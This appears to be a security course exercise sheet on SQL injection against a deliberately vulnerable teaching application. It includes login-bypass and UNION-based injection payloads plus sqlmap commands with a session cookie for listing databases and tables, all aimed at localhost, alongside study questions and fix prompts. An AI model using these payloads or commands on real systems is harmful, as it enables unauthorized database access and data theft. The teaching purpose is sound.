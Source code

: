 #### Please note that all URLs are examples, you need to find new URLs in the application

## SQL Injection
A SQL injection attack is performed when an attacker attempts to pass bad data to the application in hope that it will be injected into a SQL query.
For example, when attempting to login, it can be guessed that the query should look somewhat like  
*"SELECT * FROM USERS WHERE USERNAME='" + username + "' AND PASSWORD='" + password + "'"*

If the attacker would then enter the username admin and password helloworld, the complete query would be  
*"SELECT * FROM USERS WHERE USERNAME='admin' AND PASSWORD='helloworld'"*

By realising how a query is built, the attacker could instead pass username admin and password ' OR 1=1; --'

#### Questions
1. What would the resulting query be for the injection attack?
2. What does the attack query do and how can it be used?
3. Can you find any place in the application where you can use this attack?
4. How can you fix it in the code?

## Display information using SQL injection
Sometimes information is retrieved from a SQL query and displayed in the client.
If there is a sql vulnerability, this can be exploited into showing unintended data, such as internal database information

This is most common in GET requests where information is retrieved based a parameter, such as user id. Let's take the example where grades are retrieved by user id.  
*Endpoint: .../grades?user=admin*  
*Resulting backend query: "SELECT * FROM GRADES WHERE USERNAME='admin'"*

If the attacker would then instead change the user to "admin' OR 1=1 --'", the result would be  
*Endpoint: .../grades?user=' OR 1=1 --'*  
*Resulting backend query: "SELECT * FROM GRADES WHERE USERNAME='admin' OR 1=1 --''"*

If the page load is properly loaded, there is a high risk for a SQL vulnerability. We can then check how many columns the queried table has:  
*.../grades?user=admin' ORDER BY 3 --'*   **# Page loads correctly, sorted according the 3 column**  
*.../grades?user=admin' ORDER BY 5 --'*   **# Page loads correctly, sorted according the 5 column**  
*.../grades?user=admin' ORDER BY 6 --'*   **# Fails! We only have 5 columns**  

We can then query the type of each column by selecting values that we think are matching types  
*.../grades?user=admin' UNION SELECT null, null, null, null, null --'*   **# Start with only null, change one at a time**
*.../grades?user=admin' UNION SELECT 1, null, 3, 'TEST', 'ABC' --'*      **# Change data types as long as server does not crash**

#### Questions
1. What could be interesting to list in such attacks?
2. How would an attack SQL query look like?
3. Is there any special metadata that can be queried for important information?
4. Can you find a page with this weakness in the application?
5. How do you solve it?

## SQL Map - Automatic injection tool
In real life, attackers will not manually test and inject on apges. Instead tools are used to automatically detect vulnerabilities and perform attacks against these. There are more advanced injection attacks, such as time-based, where a tool is a requirement. SQLMap (http://sqlmap.org/) is a python utility that can be used to perform automatic advanced SQL attacks against a system.

SQLMap first attempts to check if an endpoint is vulnerable. If so, it attempts to detect which database is used for persisting data. After that, information is extracted using special queries. The user manual for SQLMap can be found at https://github.com/sqlmapproject/sqlmap/wiki/Usage

#### Usage
First, a vulnerable endpoint needs to be found. An endpoint can be tested using
```python
python sqlmap.py -u "http://localhost:8080/....?id=123"
```
However, in a lot of cases the vulnerable endpoint is at a place where the user needs to be logged in. If so, we also need to send a cookie value for the logged in session as SQLMap will run separate from your browser.
```python
python sqlmap.py -u "http://localhost:8080/....?id=123" --cookie="JSESSIONID=E52B5F51105364280C3E011C5EA837E8"
```
If vulnerable, the running database will be detected and the user will be notified that an attack is possible. If an vulnerable parameter is detected, there is no need to continue searching for more. Let's continue investigate which schemas/databases are available
```python
python sqlmap.py -u "http://localhost:8080/....?id=123" --cookie="JSESSIONID=E52B5F51105364280C3E011C5EA837E8" --dbs --no-cast
```
*dbs* will attempt to read all databases. *--no-cast* is only needed when detecting schemas and the underlying database is an embedded HSQLDB as in Facepalm - normally it can be left out. Once the schemas are found, the tables in a specific schema can be found as
```python
python sqlmap.py -u "http://localhost:8080/....?id=123" --cookie="JSESSIONID=E52B5F51105364280C3E011C5EA837E8" -D #SCHEMA_NAME# --tables
```
where *#SCHEMA_NAME#* is replaced with the real schema name. There are of course more attacks to perform which are asked for in the *Questions* section.

#### Questions
1. How can SQLMap detect if an endpoint is vulnerable?
2. How does SQLMap detect which database is running?
3. How can SQLMap read and dump the complete database without any prior knowledge except detected database software?
4. Can you find somewhere in Facepalm where you can run SQLMap?
5. Detect all available schemas and tables
6. Read the content of a specific table
6. Dump the database using the found endpoint in 4) and show the user information

## (Solutions)
The vulnerability can be investigated for example in JPAUserRepository or JPAImageRepository.java. Try to study the code first and then try exploiting the application

